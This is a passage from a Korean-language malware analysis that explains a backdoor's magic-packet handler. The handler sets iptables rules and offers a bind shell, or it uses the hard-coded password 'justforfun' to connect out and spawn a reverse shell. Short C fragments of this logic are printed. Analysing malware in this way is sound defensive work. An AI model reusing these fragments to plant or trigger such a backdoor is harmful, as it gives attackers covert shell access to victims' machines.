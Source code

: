         ```c
        strcpy(sip, inet_ntoa(ip->ip_src));
        getshell(sip, ntohs(tcp->th_dport));
        break;
        ```

        - IPTables 규칙을 설정하고, Bind Shell을 제공하는 것이 목적이다.
        - `inet_ntoa()` 함수를 통해 패킷의 출발지 IP 주소, 즉 패킷을 전송한 공격자의 IP 주소를 Dotted-Decimal Notation(사람이 읽을 수 있는 형태의 IP 주소 e.g. 192.168.1.102)으로 바꾸어 char 배열 `sip` 변수에 저장한다.
        - 앞에서 구한 `sip` 변수와 TCP 헤더에 포함되어 있던 목적지 port 값을 big-endian 에서 little-endian으로 변환한 값을 인자로 하여 `getshell` 함수를 실행한다.

    2. `case 0:` - 비밀번호: `justforfun`

        ```c
        scli = try_link(bip, mp->port);
        if (scli > 0)
            shell(scli, NULL, NULL);
        break;
        ```

        - 공격자에게 Reverse Shell을 제공하는 것이 목적이다.
        - `try_link()` 함수를 호출하여 앞에서 정하였던 공격 대상 ip 주소(`bip`)와 `magic_packet`에 지정되어 있는 포트(공격 대상 포트, `mp→port`)를 인자로 전달한다.
        - 해당 함수로부터 반환 받은 소켓 파일 디스크립터를 `int scli` 변수에 저장하고, 정상적으로 소켓이 생성되었다면 `shell` 함수를 통해 통신을 시도한다. 이때, 두 개의 인자 모두 `NULL`로 전달한다.

    3. `case 2:` - 비밀번호 불일치

        ```c
        mon(bip, mp->port);
        break;
        ```

        - 프로세스가 정상적으로 동작 중인지를 모니터링하기 위한 목적이다.
        - `mon` 함수에 대한 인자로 공격 대상 ip 주소(`bip`)와 `magic_packet`에 지정되어 있는 포트(공격 대상 포트, `mp→port`)를 전달하여 호출한다.

<br>

### (주요 함수 분석) try_link

- 해당 함수는 pass 값이 `justforfun`인 경우에 TCP socket 연결을 수행하고, 이를 `shell` 함수에 전달하여 Bind Shell을 제공하는 것을 목적으로 한다.

<br>

1. **함수 인자 설정**

2. **변수 선언 및 초기화**

3. **TCP socket 생성**

    ```c
    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        return -1;
    }
    ```

